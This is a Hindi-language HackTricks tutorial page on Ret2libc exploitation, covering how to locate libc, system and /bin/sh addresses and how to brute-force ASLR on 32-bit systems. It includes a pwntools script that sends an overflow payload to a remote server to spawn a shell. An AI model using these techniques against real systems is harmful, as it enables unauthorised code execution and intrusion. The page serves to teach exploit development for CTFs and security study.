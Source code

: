 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

**Ret2Libc** का सार यह है कि एक कमजोर प्रोग्राम के निष्पादन प्रवाह को एक साझा पुस्तकालय (जैसे, **system**, **execve**, **strcpy**) के भीतर एक फ़ंक्शन की ओर पुनर्निर्देशित किया जाए, बजाय इसके कि हमलावर द्वारा प्रदान किए गए शेलकोड को स्टैक पर निष्पादित किया जाए। हमलावर एक पेलोड तैयार करता है जो स्टैक पर लौटने के पते को इच्छित पुस्तकालय फ़ंक्शन की ओर इंगित करने के लिए संशोधित करता है, जबकि आवश्यक तर्कों को कॉलिंग कन्वेंशन के अनुसार सही ढंग से सेट करने की व्यवस्था भी करता है।

### **Example Steps (simplified)**

* कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे system) और कॉल करने के लिए कमांड (जैसे /bin/sh)
* पहले तर्क को कमांड स्ट्रिंग की ओर इंगित करने और फ़ंक्शन के लिए निष्पादन प्रवाह को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें

## Finding the addresses

* मान लीजिए कि उपयोग की जाने वाली `libc` वर्तमान मशीन से है, आप यह पता लगा सकते हैं कि यह मेमोरी में कहाँ लोड होगी: 

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप यह जांचना चाहते हैं कि क्या ASLR libc के पते को बदल रहा है, तो आप कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* libc का ज्ञान होने पर `system` फ़ंक्शन का ऑफ़सेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* libc का ज्ञान होने पर, `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### gdb-peda / GEF का उपयोग करना

libc का ज्ञान होने पर, Peda या GEF का उपयोग करके **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाना भी संभव है:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग करना

यदि प्रक्रिया हर बार आपके साथ बात करते समय **बच्चे** बना रही है (नेटवर्क सर्वर) तो उस फ़ाइल को **पढ़ने** की कोशिश करें (संभवतः आपको रूट होना पड़ेगा)।

यहाँ आप **सटीक रूप से देख सकते हैं कि libc प्रक्रिया के अंदर कहाँ लोड हो रहा है** और **प्रक्रिया के हर बच्चे के लिए कहाँ लोड होने वाला है**।

![](<../../../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का बेस पता होगा)

## अज्ञात libc

यह संभव है कि आप **नहीं जानते कि बाइनरी कौन सी libc लोड कर रहा है** (क्योंकि यह किसी सर्वर पर हो सकता है जहाँ आपके पास कोई पहुँच नहीं है)। उस मामले में आप **कुछ पते लीक करने के लिए भेद्यता का दुरुपयोग कर सकते हैं और पता लगा सकते हैं कि कौन सी libc** लाइब्रेरी का उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट यहाँ पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32 बिट्स में ASLR को बायपास करना

ये ब्रूट-फोर्सिंग हमले **केवल 32-बिट सिस्टम के लिए उपयोगी हैं**।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc के बेस पते को ब्रूट-फोर्स करने की कोशिश कर सकते हैं (32-बिट सिस्टम के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* यदि आप एक दूरस्थ सर्वर पर हमला कर रहे हैं, तो आप **`libc` फ़ंक्शन `usleep` का पता लगाने के लिए बोट-फोर्स करने की कोशिश कर सकते हैं**, उदाहरण के लिए 10 को तर्क के रूप में पास करते हुए। यदि किसी बिंदु पर **सर्वर प्रतिक्रिया देने में 10 सेकंड अतिरिक्त समय लेता है**, तो आपने इस फ़ंक्शन का पता लगा लिया है।

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

इस उदाहरण में ASLR बोट-फोर्स को कोड में एकीकृत किया गया है और कमजोर बाइनरी एक दूरस्थ सर्वर में स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

उदाहरण देखें:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

यह कुछ विशिष्ट डेटा को तर्क के रूप में रखकर `printf`/`puts` को कॉल करके **प्रक्रिया से जानकारी लीक करने** की अनुमति देता है।

## Ret2printf

इसका मूल अर्थ है **Ret2lib का दुरुपयोग करना ताकि इसे `printf` प्रारूप स्ट्रिंग्स भेद्यता में परिवर्तित किया जा सके** `ret2lib` का उपयोग करके printf को उन मानों के साथ कॉल करना जो इसे शोषित करते हैं (बेतुका लगता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, libc में एक फ़ंक्शन के पते को लीक करने के लिए, एक गेज़ेट का उपयोग करना
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम लेकिन कोई PIE नहीं, पहला कदम ओवरफ्लो को भरना है जब तक कि कैनरी का बाइट 0x00 न हो जाए ताकि फिर puts को कॉल किया जा सके और इसे लीक किया जा सके। कैनरी के साथ एक ROP गेज़ेट बनाया जाता है जो puts को कॉल करता है ताकि GOT से puts का पता लीक किया जा सके और फिर `system('/bin/sh')` को कॉल करने के लिए एक ROP गेज़ेट।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, मुख्य से एक बच्चे के फ़ंक्शन में स्टैक ओवरफ्लो। GOT से puts के पते को लीक करने के लिए puts को कॉल करने के लिए ROP गेज़ेट और फिर एक गेज़ेट को कॉल करें।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई pie नहीं, कोई कैनरी नहीं, कोई relro नहीं, nx। write फ़ंक्शन का उपयोग करके write (libc) के पते को लीक करता है और एक गेज़ेट को कॉल करता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
